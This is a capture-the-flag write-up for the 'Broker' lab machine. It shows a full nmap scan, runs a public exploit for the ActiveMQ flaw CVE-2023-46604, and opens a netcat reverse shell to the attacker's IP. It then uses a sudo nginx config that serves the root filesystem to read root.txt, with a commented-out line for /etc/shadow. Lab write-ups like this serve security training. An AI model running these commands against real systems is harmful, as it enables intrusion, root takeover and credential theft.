




- Machine Name: Broker
- OS Type: Linux
- Difficulty: Easy

### Port Scanning - Service & Version Enumeration

```bash
# Nmap 7.95 scan initiated Thu May  8 09:56:10 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out -vv 10.10.11.243
Nmap scan report for 10.10.11.243
Host is up, received echo-reply ttl 63 (0.29s latency).
Scanned at 2025-05-08 09:56:13 IST for 143s
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE    REASON         VERSION
22/tcp    open  ssh        syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp    open  http       syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
1883/tcp  open  mqtt       syn-ack ttl 63
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|_    ActiveMQ/Advisory/Consumer/Topic/#: 
5672/tcp  open  amqp?      syn-ack ttl 63
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8161/tcp  open  http       syn-ack ttl 63 Jetty 9.4.39.v20210325
|_http-title: Error 401 Unauthorized
|_http-server-header: Jetty(9.4.39.v20210325)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
42437/tcp open  tcpwrapped syn-ack ttl 63
61613/tcp open  stomp      syn-ack ttl 63 Apache ActiveMQ
| fingerprint-strings: 
|   HELP4STOMP: 
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open  http       syn-ack ttl 63 Jetty 9.4.39.v20210325
| http-methods: 
|   Supported Methods: GET HEAD TRACE OPTIONS
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title.
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-server-header: Jetty(9.4.39.v20210325)
61616/tcp open  apachemq   syn-ack ttl 63 ActiveMQ OpenWire transport 5.15.15
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5672-TCP:V=7.95%I=7%D=5/8%Time=681C32CB%P=x86_64-pc-linux-gnu%r(Get
SF:Request,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\x
SF:c0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\
SF:0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20clie
SF:nt\x20using\x20unsupported\x20AMQP\x20attempted")%r(HTTPOptions,89,"AMQ
SF:P\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\
SF:0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02
SF:\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client\x20using\x20
SF:unsupported\x20AMQP\x20attempted")%r(RTSPRequest,89,"AMQP\x03\x01\0\0AM
SF:QP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\
SF:x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:de
SF:code-error\xa17Connection\x20from\x20client\x20using\x20unsupported\x20
SF:AMQP\x20attempted")%r(RPCCheck,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0
SF:\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02
SF:\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Con
SF:nection\x20from\x20client\x20using\x20unsupported\x20AMQP\x20attempted"
SF:)%r(DNSVersionBindReqTCP,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x
SF:02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0
SF:\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connectio
SF:n\x20from\x20client\x20using\x20unsupported\x20AMQP\x20attempted")%r(DN
SF:SStatusRequestTCP,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\
SF:0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18
SF:\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20fr
SF:om\x20client\x20using\x20unsupported\x20AMQP\x20attempted")%r(SSLSessio
SF:nReq,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\
SF:x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\
SF:x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client\
SF:x20using\x20unsupported\x20AMQP\x20attempted")%r(TerminalServerCookie,8
SF:9,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x0
SF:4\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc
SF:0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client\x20usi
SF:ng\x20unsupported\x20AMQP\x20attempted");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port61613-TCP:V=7.95%I=7%D=5/8%Time=681C32C5%P=x86_64-pc-linux-gnu%r(HE
SF:LP4STOMP,27F,"ERROR\ncontent-type:text/plain\nmessage:Unknown\x20STOMP\
SF:x20action:\x20HELP\n\norg\.apache\.activemq\.transport\.stomp\.Protocol
SF:Exception:\x20Unknown\x20STOMP\x20action:\x20HELP\n\tat\x20org\.apache\
SF:.activemq\.transport\.stomp\.ProtocolConverter\.onStompCommand\(Protoco
SF:lConverter\.java:258\)\n\tat\x20org\.apache\.activemq\.transport\.stomp
SF:\.StompTransportFilter\.onCommand\(StompTransportFilter\.java:85\)\n\ta
SF:t\x20org\.apache\.activemq\.transport\.TransportSupport\.doConsume\(Tra
SF:nsportSupport\.java:83\)\n\tat\x20org\.apache\.activemq\.transport\.tcp
SF:\.TcpTransport\.doRun\(TcpTransport\.java:233\)\n\tat\x20org\.apache\.a
SF:ctivemq\.transport\.tcp\.TcpTransport\.run\(TcpTransport\.java:215\)\n\
SF:tat\x20java\.lang\.Thread\.run\(Thread\.java:750\)\n\0\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May  8 09:58:36 2025 -- 1 IP address (1 host up) scanned in 145.65 seconds

```

## Enumeration

### Port 61616,61614,61613/ActiveMQ

I noticed interesting service ActiveMQ is running, quick google search reveals that it is vulnerable to RCE → https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell

clone the exploit repository and run exploit 

```bash
python3 exploit.py -i 10.10.11.243 -si 10.10.14.17 -p 61616
```



we got Remote Command Execution on the target machine, let’s get proper reverse shell using netcat

start netcat listener on port 443

```bash
busybox nc 10.10.14.17 443 -e /bin/bash
```



i found that we can run nginx as root



i created below exploit to get root.txt

```bash
echo "[+] Creating configuration..."
cat << EOF > /tmp/nginx_pwn.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
	server {
	        listen 1339;
	        root /;
	        autoindex on;
	        dav_methods PUT;
	}
}
EOF
echo "[+] Loading configuration..."
sudo nginx -c /tmp/nginx_pwn.conf
#echo "[+] Getting /etc/Shadow file..."
#curl -X GET localhost:1339/etc/shadow
echo "[+] Getting root.txt"
curl -X GET localhost:1339/root/root.txt
```

